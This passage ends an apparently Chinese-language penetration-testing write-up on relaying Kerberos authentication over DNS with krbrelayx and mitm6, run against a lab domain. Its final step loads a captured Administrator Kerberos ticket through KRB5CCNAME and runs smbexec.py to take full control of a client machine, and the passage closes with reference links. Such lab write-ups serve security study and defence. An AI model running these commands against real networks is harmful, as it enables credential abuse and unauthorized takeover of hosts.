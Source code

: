 ![](/assets/posts/2022-04-26-relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/image-20220426195701175.png)

（5）最后，我们通过设置环境变量 `KRB5CCNAME` 来使用 Administrator 用户的票据，并通过 smbexec.py 获取  WIN10-CLIENT1 机器的最高权限，相关命令如下。

```bash
export KRB5CCNAME=/root/PKINITtools/Administrator.ccache
python3 smbexec.py -k pentest.com/Administrator@win10-client1.pentest.com -no-pass
```

![](/assets/posts/2022-04-26-relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/image-20220426195846775.png)

## Ending......

参考文献：

> https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html
>
> https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/
>
> https://exploit.ph/defending-the-three-headed-relay.html
